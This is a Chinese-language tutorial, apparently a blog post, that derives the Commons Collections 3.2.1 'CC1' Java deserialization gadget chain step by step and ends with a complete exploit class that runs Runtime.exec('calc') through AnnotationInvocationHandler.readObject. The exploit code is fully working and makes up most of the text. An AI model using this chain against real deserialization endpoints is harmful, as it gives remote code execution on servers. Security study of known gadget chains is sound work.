


## 前言

学习路线：

CC1->1(2)->6->3->4->2

## 环境搭建

[jdk8u65下载链接](./https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)


[openjdk下载链接](./https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)


然后将`jdk8u65`的`src.zip`解压

将`openjdk`下的`src\share\classes\sun`文件夹，赋值到`jdk8u65`的`src`下


在`pom.xml`中加入

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
```


### 注意事项

后面还会碰到这个问题--`库源与类AnnotaionInvocationHandler的字节码不符`

我们需要将`AnnotationInvocationHandler.java`文件编译为class文件之后，在jar包中替换

#### 具体操作方法

```
进到对应的目录之后编译，后面这个java文件是需要路径的
javac AnnotationInvocationHandler.java
```

编译之后会有一个`AnnotationInvocationHandler.class`

然后再IDEA中装一个名为`jarEditor`的插件

在IDEA左侧项目栏中找到`rt.jar/sun/reflect/annotation/AnnotationInvocationHandler`


右键`jarEditor/delete`，然后同样的方法，将前面编译好的class文件粘贴进来即可


## 终点-transform方法

`InvokerTransformer.java`包中的`transform`方法，可以执行任意方法，并且可以上传任意参数，所以cc链1的终点就是要执行`transform`方法


```java
Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
```

## 第一步

`checkSetValue`执行了`transform`方法


### 反推流程

`TransformedMap.java`包-`decorate`方法->`TransformedMap.java`包-`TransformedMap`构造方法(protected)->`valueTransformer`方法->`TransformedMap.java`包->`checkSetValue`方法(protected)->`InvokerTransformer.java`包->`transform`

### 代码解释

- `decorate`方法是Map类型，实例化`decorate`时调用`TransformedMap`构造方法，将`invokerTransformer`赋值给`valueTransformer`
- `checkSetValue`是`protected`类型，需要利用反射先得到`transformedMapClass`然后调用其中的`checkSetValue`方法
- 最后一行是调用实例化好的`decorateMap`的`checkSetValueMethod`方法，参数为`runtime`，等同于`decorateMap.checkSetValue(runtime);`

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
        Class <TransformedMap> transformedMapClass = TransformedMap.class;
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue",Object.class);
        checkSetValueMethod.setAccessible(true);
        checkSetValueMethod.invoke(decorateMap,runtime);
```

## 第二步

- 目前找到的链子位于 `checkSetValue` 当中，去找 `.decorate` 的链子，发现无法进一步前进了，所以我们回到 `checkSetValue` 重新找链子。

继续 `find usages`，找到了 `parent.checkSetValue(value);` 调用了 `checkSetValue`


`MapEntry`是Map中的一个键值对，所以`setValue`就是给键值对赋值

第一步我们是通过`TransformedMap.java`来调用`checkSetValue`

这一步我们是通过给Map键值对赋值来调用`checkSetValue`

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
       
        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
for (Map.Entry entry : decorateMap.entrySet()) {
            entry.setValue(runtime);
        }
```

## 第三步-寻找readObject()

`AnnotationInvocationHandler`下的`readObject`中调用了`setvalue`


`AnnotationInvocationHandler`是`default`类型，只能在该包下调用，所以要用反射

后面`readObject`中还有两个if判断条件，所以这里还需要用构造函数给参数赋值来绕过if判断

```java
Runtime runtime = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,invokerTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor =c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("test.txt");
```

## 遇到的问题

> ①：`Runtime` 对象不可序列化，需要通过反射将其变成可以序列化的形式。

> ②：`setValue()` 的传参，是需要传 `Runtime` 对象的；而在实际情况当中的 `setValue()` 的传参是这个东西
>
> ③：解决上文提到的，要进入 `setValue` 的两个 if 判断


## 解决问题 ① Runtime 不能序列化

`Runtime` 是不能序列化的，但是 `Runtime.class` 是可以序列化的。我们先写一遍普通反射。

```java
Class c = Runtime.class;
        Method getRuntimeMethod =  c.getMethod("getRuntime",null);
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
        Method execMethod = c.getMethod("exec",String.class);
        execMethod.invoke(r,"calc");
```

接着，我们将这个反射的 `Runtime` 改造为使用 `InvokerTransformer` 调用的方式。因为最终是要执行`transform`这个方法

具体写法可以写的时候看一下源码，就能理解参数内容了

```java
        Method getRuntimeMethod = (Method)  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntimeMethod);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

```

有个`ChainedTransformer`类，可以传入`Transformer`数组，然后循环将`Transform`数组中的内容调用`transform`方法



所以代码可以简化成

```java
 Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
         chainedTransformer.transform(Runtime.class);
```

## 解决问题 ② 进入到 setValue 方法

这里调试无法进到这个代码里面的可以看文章开头的注意事项


构造函数传入两个参数，`type`和`memberTypes`，`memberType`就是`type`参数实例化后的类型

成员类型不能为空，并且可实例化

这里我们用 `Target.class` ，点进 `Target`，当中有一个成员变量为 `value`，所以我们 `hashmap.put` 也需要修改为 `value`。


## 解决问题 ③ 控制 setValue 参数

最终传入的参数不是我们想要的，我们要传入的参数应该是`Runtime.class`所以要控制这个参数




- 构造函数是将对象放在`iConstant`中
- `transform`方法无论传入什么都返回`iConstant`

这里不是很容易懂，可以在`setvalue`处打个断点一步一步调试

在链子的前半部分用不到这个`value`值，只有在`transform方法`时才会用到这个`value`值，因为要读取`Runtime.class`下的方法，正好`ConstatntTransformer`类的构造方法和`transform`方法可以重新定义value值

只需要在创建`transformers`数组时，使用构造函数将`Runtime.class`传入，后面`transform`就都会调用`Runtime.class`

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

## 调用链


## 最终代码

```java
package com.test01;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put("value","aaa");
        Map<Object,Object> decorateMap = TransformedMap.decorate(hashMap,null,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor =c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorateMap);
        serialize(o);
        unserialize("test.txt");

        }


    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(object);
    }
    public static void unserialize(Object object) throws Exception{
        ObjectInputStream ois=new ObjectInputStream(new FileInputStream("test.txt"));
        ois.readObject();
    }
}
```

